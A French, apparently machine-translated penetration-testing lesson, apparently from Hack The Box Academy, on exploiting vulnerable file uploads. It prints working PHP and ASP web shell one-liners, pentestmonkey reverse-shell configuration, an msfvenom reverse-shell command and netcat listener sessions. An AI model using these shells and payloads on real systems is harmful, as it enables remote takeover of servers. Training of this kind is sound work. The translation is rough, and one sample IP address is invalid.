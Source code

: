Télécharger l'exploitation
===================

* * * * *

La dernière étape de l'exploitation de cette application Web consiste à télécharger le script malveillant dans le même langage que l'application Web, comme un shell Web ou un script shell inversé. Une fois que nous avons téléchargé notre script malveillant et visité son lien, nous devrions pouvoir interagir avec lui pour prendre le contrôle du serveur principal.

* * * * *
 
 Web Shell
----------

Nous pouvons trouver en ligne de nombreux excellents shells Web qui offrent des fonctionnalités utiles, telles que la traversée de répertoires ou le transfert de fichiers. Une bonne option pour `PHP` est [phpbash](https://github.com/Arrexel/phpbash), qui fournit un shell Web semi-interactif de type terminal. De plus, [SecLists](https://github.com/danielmiessler/SecLists/tree/master/Web-Shells) fournit une multitude de shells Web pour différents frameworks et langages, qui peuvent être trouvés dans `/opt/useful/SecLists /Web-Shells` répertoire dans `PwnBox`.

Nous pouvons télécharger n'importe lequel de ces shells Web pour le langage de notre application Web (`PHP` dans notre cas), puis le télécharger via la fonctionnalité de téléchargement vulnérable et visiter le fichier téléchargé pour interagir avec le shell Web. Par exemple, essayons de télécharger `phpbash.php` depuis [phpbash](https://github.com/Arrexel/phpbash) vers notre application Web, puis naviguons jusqu'à son lien en cliquant sur le bouton Télécharger :

![](https://academy.hackthebox.com/storage/modules/136/file_uploads_php_bash.jpg)

Comme nous pouvons le voir, ce shell Web offre une expérience de type terminal, ce qui facilite l'énumération du serveur principal pour une exploitation ultérieure. Essayez quelques autres shells Web de SecLists et voyez ceux qui répondent le mieux à vos besoins.

* * * * *

Écriture d'un shell Web personnalisé
------------------------

Bien que l'utilisation de shells Web à partir de ressources en ligne puisse offrir une excellente expérience, nous devons également savoir comment écrire manuellement un shell Web simple. En effet, nous n'avons peut-être pas accès aux outils en ligne lors de certains tests d'intrusion, nous devons donc pouvoir en créer un en cas de besoin.

Par exemple, avec les applications Web `PHP` , nous pouvons utiliser la fonction `system()` qui exécute les commandes système et imprime leur sortie, et lui transmettons le paramètre `cmd` avec `$_REQUEST['cmd']`, comme suit :

Code : php

```
<?php system($_REQUEST['cmd']); ?>

```

Si nous écrivons le script ci-dessus dans `shell.php` et que nous le téléchargeons dans notre application Web, nous pouvons exécuter des commandes système avec le paramètre `?cmd=` GET (par exemple `?cmd=id`), comme suit :

![](https://academy.hackthebox.com/storage/modules/136/file_uploads_php_manual_shell.jpg)

Ce n'est peut-être pas aussi facile à utiliser que d'autres shells Web que nous pouvons trouver en ligne, mais il fournit toujours une méthode interactive pour envoyer des commandes et récupérer leur sortie. Cela pourrait être la seule option disponible lors de certains tests d'intrusion Web.

Astuce : Si nous utilisons ce shell Web personnalisé dans un navigateur, il peut être préférable d'utiliser la vue source en cliquant `[CTRL+U]`, car la vue source affiche la sortie de la commande telle qu'elle serait affichée dans le terminal. , sans aucun rendu HTML susceptible d'affecter le formatage de la sortie.

Les shells Web ne sont pas exclusifs à `PHP`, et il en va de même pour les autres frameworks Web, la seule différence étant les fonctions utilisées pour exécuter les commandes système. Pour les applications Web `.NET` , nous pouvons transmettre le paramètre `cmd` avec `request('cmd')` à la fonction `eval()` , et elle doit également exécuter la commande spécifiée dans `?cmd=` et imprimer sa sortie, comme suit :

Code : asp

```
<% eval request('cmd') %>

```

Nous pouvons trouver divers autres shells Web en ligne, dont beaucoup peuvent être facilement mémorisés à des fins de test de pénétration Web. Il convient de noter que "dans certains cas, les shells Web peuvent ne pas fonctionner". Cela peut être dû au fait que le serveur Web empêche l'utilisation de certaines fonctions utilisées par le shell Web (par exemple `system()`), ou à un pare-feu d'application Web, entre autres raisons. Dans ces cas, nous devrons peut-être utiliser des techniques avancées pour contourner ces atténuations de sécurité, mais cela sort du cadre de ce module.

* * * * *

Reverse Shell
--------------

Enfin, voyons comment nous pouvons recevoir des shells inversés via la fonctionnalité de téléchargement vulnérable. Pour ce faire, nous devons commencer par télécharger un script shell inversé dans la langue de l'application Web. Un reverse shell fiable pour `PHP` est le [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell) PHP reverse shell. De plus, les mêmes [SecLists](https://github.com/danielmiessler/SecLists/tree/master/Web-Shells) que nous avons mentionnées précédemment contiennent également des scripts shell inversés pour divers langages et frameworks Web, et nous pouvons utiliser n'importe lequel d'entre eux. pour recevoir également une coque inversée.

Téléchargeons l'un des scripts shell inversés ci-dessus, comme [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell), puis ouvrons-le dans un éditeur de texte pour saisir notre `IP` et écouter ` PORT`, auquel le script se connectera. Pour le script `pentestmonkey` , nous pouvons modifier les lignes `49` et `50` et entrer l'IP/PORT de notre machine :

Code : php

```
$ip = 'NOTRE_IP'; // CHANGE ÇA
$port = NOTRE_PORT ; // CHANGE ÇA

```

Ensuite, nous pouvons commencer une`netcat` écouteur sur notre machine (avec le port ci-dessus), chargez notre script sur l'application Web, puis visitez son lien pour exécuter le script et obtenir une connexion shell inversée :

```
dsgsec@htb[/htb]$ nc -lvnp NOTRE_PORT
écoute sur [tout] OUR_PORT ...
connectez-vous à [OUR_IP] depuis (UNKNOWN) [188.166.173.208] 35232
# identifiant
uid=33(www-data) gid=33(www-data) groupes=33(www-data)

```

Comme nous pouvons le constater, nous avons reçu avec succès une connexion du serveur principal qui héberge l'application Web vulnérable, ce qui nous permet d'interagir avec elle pour une exploitation ultérieure. Le même concept peut être utilisé pour d'autres frameworks et langages Web, la seule différence étant le script shell inversé que nous utilisons.

* * * * *

Génération de scripts reverse shell personnalisés
---------------------------------------

Tout comme les shells Web, nous pouvons également créer nos propres scripts shell inversés. Bien qu'il soit possible d'utiliser la même fonction `system` et de lui transmettre une commande shell inversée, cela n'est pas toujours très fiable, car la commande peut échouer pour de nombreuses raisons, comme toute autre commande shell inversée.

C'est pourquoi il est toujours préférable d'utiliser les fonctions de base du framework Web pour se connecter à notre machine. Cependant, cela peut ne pas être aussi facile à mémoriser qu'un script shell Web. Heureusement, des outils comme `msfvenom` peuvent générer un script shell inversé dans de nombreuses langues et peuvent même tenter de contourner certaines restrictions en place. Nous pouvons le faire comme suit pour `PHP` :

```
dsgsec@htb[/htb]$ msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php
...COUPER...
Taille de la charge utile : 3 033 octets

```

Une fois que notre script `reverse.php` est généré, nous pouvons à nouveau démarrer un écouteur `netcat` sur le port que nous avons spécifié ci-dessus, télécharger le script `reverse.php` et visiter son lien, et nous devrions également recevoir un shell inversé. :

```
dsgsec@htb[/htb]$ nc -lvnp NOTRE_PORT
écoute sur [tout] OUR_PORT ...
connectez-vous à [OUR_IP] depuis (UNKNOWN) [181.151.182.286] 56232
# identifiant
uid=33(www-data) gid=33(www-data) groupes=33(www-data)

```

De même, nous pouvons générer des scripts shell inversés pour plusieurs langages. Nous pouvons utiliser de nombreuses charges utiles reverse shell avec l'indicateur `-p` et spécifier la langue de sortie avec l'indicateur `-f` .

Bien que les shells inversés soient toujours préférés aux shells Web, car ils fournissent la méthode la plus interactive pour contrôler le serveur compromis, ils peuvent ne pas toujours fonctionner et nous devrons peut-être nous fier aux shells Web à la place. Cela peut être dû à plusieurs raisons, comme avoir un pare-feu sur le réseau principal qui empêche les connexions sortantes ou si le serveur Web désactive les fonctions nécessaires pour initier une connexion vers nous.